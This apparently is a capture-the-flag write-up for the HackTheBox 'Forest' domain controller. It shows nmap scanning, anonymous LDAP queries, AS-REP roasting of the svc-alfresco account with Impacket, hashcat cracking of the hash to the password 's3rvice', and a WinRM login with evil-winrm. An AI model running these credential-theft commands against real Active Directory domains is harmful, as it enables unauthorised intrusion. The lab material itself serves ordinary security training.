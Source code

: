 # Forest

## Overview

A domain controller created by _HackTheBox_ with Exchange server installed in a minimal AD domain.

The machine covers the following techniques:

* [AS-REP Roasting](../../../windows/auth/kerberos/as-rep-roasting-attack.md)
* [DCSync attack](../../../windows/auth/credential/credential\_dumping.md#dcsync-attack)
* Bloodhound

## Reconnaissance

### Port Scanning

We use `nmap` to figure out what services are running on the target.

```bash
$ nmap -Pn -n -sS -p- -T4 --min-rate 1000 <IP>
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
```

The results reveal the following information.

* port 88 tells us that this should be a _domain controller_
* port 389 allows us to fetch information about target AD domain via LDAP
* port 5985 may allow us access the target using _WinRM_ later

### LDAP

It seems that we can fetch information about the target AD domain via [LDAP anonymous authentication](../../../windows/ad/adds/ldap.md#anonymous-authentication).

By querying the RootDSE information, we see that the target domain name is `htb.local.`

```bash
$ ldapsearch -H ldap://<IP> -x -b '' -s base
```

## Initial Access

### Alfresco

From the information gathered through anonymous LDAP query, we found a _service account_ named `svc-alfresco`.

To expand our knowledge of the technology used by our client, the next thing to do is to find what third-party service, which shall be AD-integrated, related this account.

By Google, we found a product named [Alfresco Content Services](https://docs.alfresco.com/content-services/7.0).

From the configuration, we see that the account related to this service has been configured with _Kerberos pre-authentication_ disable.

<figure><img src="../../../images/forest_alfresco.png" alt=""><figcaption><p><a href="https://docs.alfresco.com/process-services/latest/config/authenticate/#configuration-steps">Alfresco - Configuration Steps</a></p></figcaption></figure>

This allows us to get the TGT for this account `svc-alfresco`, and conduct the [_AS-REP Roasting_ attack](../../../windows/auth/kerberos/as-rep-roasting-attack.md) to retrieve the account password from the requested TGT.

### AS-REP Roasting

We use the `Impacket-GetNPUsers` to get the TGT ticket for the account `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:25dea275afcce8003c360ab40353f112$1c819f4f545ec54a5b988c5402709abffb17105fd2e5ab6a47b0321fd90307767aef2e00f6504fc2eaf643c4884614ca62b6d938a45b19c87893b0bca1d1dfc3e628c97462de1625b8d492f0ad25932d37bc84e095a6bddcb6230d53066fa0c165a77a150e2837cf257c898e71c2fbb16411e905718cf59262d1d15159537a0c49c31b7f64d89f128e20a2becb4f0e47fd0b4ca10440539ca6038e5d14da2a8be833e857bc868afff34011a9ae150c4b296866c8dbddd48f9208bc324208b251af8ff35f7a205666166c8208c59cff2de2d9994aa67fc4e7eb6aac4b0cd9b1ec02bced2feb3a
```

Refer to [AS-REP Roasting - Impacket](../../../windows/auth/kerberos/as-rep-roasting-attack.md#impacket) for more information.

We can crack the hash using `hashcat` with mode 18200:

```bash
$ hashcat --example|grep -i 'as.*rep' -B2

MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
```

and get the password `s3rvice` for the account `svc-alfresco.`

<figure><img src="../../../.gitbook/assets/圖片 (3).png" alt=""><figcaption></figcaption></figure>

### WinRM

We can now login to the target host with the credential we got via [WinRM](../../../windows/execution/remote/winrm.md).

```bash
$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```
